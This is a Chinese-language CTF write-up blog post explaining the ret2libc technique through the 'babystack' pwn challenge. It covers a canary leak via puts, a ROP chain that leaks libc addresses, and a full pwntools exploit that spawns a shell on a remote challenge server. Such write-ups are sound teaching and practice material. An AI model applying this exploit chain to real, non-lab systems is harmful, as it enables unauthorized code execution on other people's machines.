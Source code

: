 ```yaml
---
layout: post
title: "ret2libc与pwn1"
date: 2024-3-17
tags: [pwn]
comments: true
author: gbeefee
---
```


​	ret2libc，终于还是要搞明白了，继续栈的学习理论知识😌，下周就去学堆。

#### 0x0 

​	不同于ret2text，在程序中通常可以找的明显的system()或“/bin/sh”，没有的东西就只能靠手搓了。ret2libc的目标就是在程序中泄露出某一函数（通常是puts和write）的真实地址，根据这个地址获取对于版本的libc，在libc里就存在需要的sysem()和“/bin/sh"，再通过ROP，把它们拼成最后的栈溢出payload，获取shell的控制权。

#### 0x1

​	要泄露一个函数的真实地址，就不得不提到plt表和got表以及延迟绑定机制了。got表也叫全局偏移表，是Linux ELF文件中用于定位全局变量和函数的一个表。plt表也叫过程链接表，是用来存储外部函数在内存的确切地址，即函数第一次被调用的时候才进行绑定。在Linux系统中，为了节约程序运行的空间，函数只有在第一次执行后，才会完成got表和plt表的绑定。也就是说，在第二次调用后，got表才可以直接调用函数。

#### 0x2

例题：攻防世界pwn-1

![checksec](https://github.com/gbeefee/imghome/blob/main/checksec.png)

没有pie保护

![main](https://github.com/gbeefee/imghome/blob/main/main.png)

![menu](https://github.com/gbeefee/imghome/blob/main/menu.png)

不存在后门，有很明显的溢出点，但是有canary保护，需要先泄露canary。

canary的最后一位是\x00，但是puts函数读取到\x00就会自动停止，第一次输入b'a'*0x80\n，最后一个字节正好把\x00覆盖，puts函数就会连带把canary一起打印，之后再把\x00补上，就成功泄露了canary。

```
io.sendlineafter(">>",'1')

io.sendline(b'a'*0x88)

io.sendlineafter(">>",'2')

io.recvuntil('a\n')

canary = u64(io.recv(7).rjust(8,b'\x00'))
```

泄露puts的真实地址，这里需要使用ROPgadget获取pop_rdi。

```
payload1 = b'A'*0x88 + p64(canary) + p64(0)+ p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)

io.sendlineafter(">> ",'1')

io.sendline(payload1)

io.sendlineafter(">> ",'3')

puts_addr = u64(io.recv(6).ljust(8,b'\x00'))

print(hex(puts_addr))
```

最后通过偏移计算出system和binsh的地址

```
libc = LibcSearcher('puts', puts_addr)

libc_base = puts_addr - libc.dump('puts')

system = libc_base + libc.dump('system')

binsh = libc_base + libc.dump('str_bin_sh')

io.sendlineafter('>> ','1')

payload2 ='a'*0x88 + p64(canary) +p64(0)+ p64(pop_rdi) + p64(binsh) + p64(system)

io.send(payload2)

io.sendlineafter('>> ','3')

io.interactive()
```

结果如图

![result](https://github.com/gbeefee/imghome/blob/main/result.png)

完整exp：

```
from pwn import *

from LibcSearcher import *

context(os="linux", arch="amd64", log_level="debug")

elf = ELF("./babystack")

io=remote("61.147.171.105", 57778)

#io=process("./babystack")

main_addr=0x0400908

pop_rdi = 0x0400a93

puts_got = elf.got['puts']

puts_plt = elf.plt['puts']

io.sendlineafter(">>",'1')

io.sendline(b'a'*0x88)

io.sendlineafter(">>",'2')

io.recvuntil('a\n')

canary = u64(io.recv(7).rjust(8,b'\x00'))

payload2 = b'A'*0x88 + p64(canary) + p64(0)+ p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)

io.sendlineafter(">> ",'1')

io.sendline(payload2)

io.sendlineafter(">> ",'3')

puts_addr = u64(io.recv(6).ljust(8,b'\x00'))

libc = LibcSearcher('puts', puts_addr)

libc_base = puts_addr - libc.dump('puts')

system = libc_base + libc.dump('system')

binsh = libc_base + libc.dump('str_bin_sh')

io.sendlineafter('>> ','1')

payload2 ='a'*0x88 + p64(canary) +p64(0)+ p64(pop_rdi) + p64(binsh) + p64(system)

io.send(payload2)

io.sendlineafter('>> ','3')

io.interactive()
```


